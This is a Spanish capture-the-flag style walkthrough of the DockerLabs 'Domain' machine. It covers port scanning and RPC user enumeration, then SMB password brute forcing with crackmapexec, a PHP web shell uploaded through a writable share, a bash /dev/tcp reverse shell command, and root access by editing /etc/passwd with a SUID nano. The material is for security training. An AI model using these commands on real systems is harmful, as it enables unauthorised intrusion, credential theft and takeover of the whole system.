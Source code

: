 ```yaml
---
Nombre de la máquina: Domain
Sistema Operativo: Linux
Dificultad: Media 🟠
Skills: SMB, Crackmapexec, Brute Force, SUID
Enlace de descarga: https://mega.nz/file/4GMGGYpa#-aSLPKJxpmrvHGYi4jqLYaEVXEdGRkdJQLxPCfRI9t8
---
```

----

## Montando el laboratorio

Lo primero que deberemos hacer para practicar con esta máquina es, dirigirnos a la página de [dockerlabs](https://dockerlabs.es/) y descargarnos la máquina desde el [siguiente enlace](https://mega.nz/file/4GMGGYpa#-aSLPKJxpmrvHGYi4jqLYaEVXEdGRkdJQLxPCfRI9t8). Una vez descargada y descomprimida ejecutaremos el siguiente comando.

```
sudo bash auto_deploy.sh domain.tar
```

Al ejecutar el comando, tendremos que esperar hasta que nos indique que la máquina está desplegada.

![Desplegando la máquina domain](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/622d3d6d-ec1c-4e59-9aa2-e2224219edb6)

Como podemos ver en la imagen anterior, la máquina está desplegada correctamente y su dirección IP es la **172.17.0.2**. Esto nos habrá montado la máquina vulnerable *Domain* a través de *docker*. 

## Como eliminar la máquina vulnerable

En caso de querer eliminarla, simplemente presionaremos en el teclado **CTRL** + **C** y la máquina se eliminará automáticamente.

![eliminando la máquina domain](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/6f6809d9-bcf0-4bdc-ac89-279f72188328)

## Comprobando la conectividad

Una vez desplegada, deberemos cerciorarnos de que tenemos conectividad con esta. Para ello, haremos uso del comando `ping` para realizar el chequeo.

![comprobando conectividad con la máquina](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/18648b0f-8739-49dd-85e3-42f080cd2a25)

Comprobamos que tenemos conectividad y, podemos intuir mediante el **TTL**, que el sistema operativo de la máquina víctima es *Linux*.

## Enumeración

En primer lugar, empezaremos realizando un escaneo en busca de puertos abiertos haciendo uso de la herramienta `nmap`.

```
sudo nmap -p- --open -sS --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

Ejecutamos el comando y encontramos los siguientes puertos abiertos.

![primer escaneo máquina domain](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/a3876a34-0b3c-4313-a585-69b4e47a6280)

Sobre estos puertos abiertos, usaremos unos scripts básicos de enumeración de `nmap` y detectaremos la versión y servicios que corren bajo estos puertos.

```
sudo nmap -p80,139,445 -sCV 172.17.0.2
```

Al ejecutarlo, nos devuelve la siguiente información.

![segundo nmap máquina domain](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/0458eefa-a5ff-4e42-9a24-fb92323c8883)

Vemos que *Samba* y *Apache* están por ahí. Si echamos un vistazo a la página web, no observamos mayor información que la de a continuación.

![pagina principal puerto 80](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/25b75dc2-70be-4d8b-90d2-55a649b78233)

Probaremos a ver si encontramos mayor información, utilizando la herramienta `gobuster`, con la finalidad de encontrar alguna otra posible ruta de la página.

![enumeración de subdirectorios con gobuster](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/13651504-900d-4a96-91be-4e096b013dd6)

Sin embargo, al cabo de un rato no nos muestra nada interesante por donde ir. Como no encontramos nada por el puerto *80*, enumeraremos un poco el servicio de *SMB*. Para ello, enumeraremos los recursos compartidos a nivel de red, con la herramienta `smbmap`.

```
smbmap -H 172.17.0.2 -U ''
```

Los recursos que hay disponible por *SMB*, no parecen estar disponibles sin tener un usuario con credenciales válidas.

![smbmap null session recursos smb](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/0dd0bbc1-0e3d-4348-b108-1085f0e77e0d)

Como no tenemos ningún usuario válido de momento, intentaremos si podemos conectarnos sin credenciales, por *RPC* para enumerar un poco más.

![rpcclient connection success null session](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/ba1146af-ee08-48fc-9f34-62764460894a)

Hemos podido conectarnos por *RPC* sin credenciales, por lo que probaremos a enumerar los usuarios del sistema con `enumdomusers`.

![enumdomusers rpcclient](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/d82f6645-ac9c-466a-9ffc-1f4b67b60c7c)

Parece ser que, los usuarios *james* y *bob* son usuarios válidos del sistema. Con estos usuarios en posesión, realizaremos un ataque de fuerza bruta hacia ellos por *smb*, con la herramienta `crackmapexec`. Metiendo los usuarios *james* y *bob* en la lista `users.txt`, ejecutaremos el comando de a continuación.

```
crackmapexec smb 172.17.0.2 -u users.txt -p /usr/share/wordlists/rockyou.txt
```

Al cabo de un buen rato, el usuario *bob* contaba con sus credenciales en nuestro `rockyou.txt`, por lo que ahora tenemos su credencial.

![credenciales válidas de bob con crackmapexec](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/70a22804-d9c4-41dc-b731-6ff2c18bcac0)

Con estas credenciales en nuestra posesión, probaremos de nuevo a visualizar los recursos compartidos de *SMB* para ver, si con estas credenciales podemos visualizar mayor información.

![smbmap con el usuario bob](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/af7b7487-5b68-4731-876c-44b30d31258b)

Con el usuario *bob*, tenemos permisos de **lectura** y **escritura** sobre el recurso *html* y **solo lectura** en *print*. El recurso *html* puede ser interesante ver que contiene, porque si podemos subir algún fichero malicioso en este directorio, puede que desde la web podamos verlo.

Vamos a ver que contiene este directorio.

![contenido del recurso html smb](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/7e5e96e3-a151-44c3-8e57-980085fd6609)

Hay un fichero `index.html`. Después de descargar el fichero con `get index.html` y observando su contenido, nos percataremos que es el código *html* de la página principal.

![analizando index html de smb](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/1eae8d49-74de-4af0-b311-66a0a04e71b6)

## RCE

Como podemos escribir en este directorio, intentaremos subir un fichero **PHP** malicioso desde el cual, podamos ejecutar un comando en el sistema víctima, a través del parámetro *cmd* (que crearemos). El contenido del fichero es el siguiente.

![fichero php malicioso](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/8fdf3170-4f9e-4558-a697-ae77647ddd2d)

Este fichero, lo subiremos al directorio de *SMB*.

![subiendo fichero PHP malicioso](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/33d5e967-ec11-4f10-b598-bddad7474967)

Seguidamente, nos dirigiremos a la página web, y al fichero correspondiente que hemos subido. Después, ejecutaremos cualquier comando del sistema, como `whoami` y veremos su resultado.

![comando whoami ejecutado RCE](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/bd089bac-b111-4ac9-8520-7509f1587d79)

## Acceso al sistema

Como tenemos un **RCE**, nos enviaremos una *reverse shell* a través del puerto *443*. Antes, nos tenemos que poner en escucha de la siguiente manera.

![en escucha por el puerto 443 con nc](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/edff8aaa-3364-411c-9e4e-a0857351140d)

Por último, ejecutamos la siguiente *reverse shell* desde el parámetro *cmd* del fichero `pwned.php` que subimos.

```
bash -c "bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261"
```

Y conseguimos acceso al sistema.

## Enumeración del sistema

Dentro del sistema, enumeraremos un poco. Empezaremos viendo los grupos a los que pertenecemos con este usuario.

![grupos del usuario www-data](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/b00a609d-babd-4af0-86c5-db5747339b2e)

No hay ningún grupo peligroso, por lo que pasaremos a ver los permisos que tenemos a nivel de *sudoers*.

![permisos sudoers](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/b06e229f-4a05-44b7-960c-ee18139a9be4)

No existe el comando `sudo`! Es un poco raro que no exista este comando, sin embargo, no nos supondrá un problema.

Continuaremos buscando por binarios *SUID*.

![binarios suid](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/09e7e6aa-8f02-4cbf-b8d9-5f47c475f66c)

El binario `/usr/bin/nano` es *SUID*. Esto, nos permitirá poder editar cualquier tipo de fichero en el sistema. 

## Escalada de privilegios (acceso como root)

Con estos privilegios en este binario, se puede *escalar privilegios* de muchas diferentes maneras. Una de ellas es, editar el fichero `/etc/passwd` y quitarle la contraseña al usuario *root*.

Al no existir el comando `sudo`, podemos editar el fichero directamente como el usuario propietario (*root*) simplemente escribiendo el comando `nano /etc/passwd`.

![fichero etc passwd editado](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/41882ba4-d5de-444d-99d8-f6144822ef98)

Con el usuario *root* sin contraseña, para poder convertirnos en él, lo haremos con el comando `su root`.

![escalada de privilegios existosa](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/94e126e2-2fc0-4982-ac21-7066a4c7a46f)
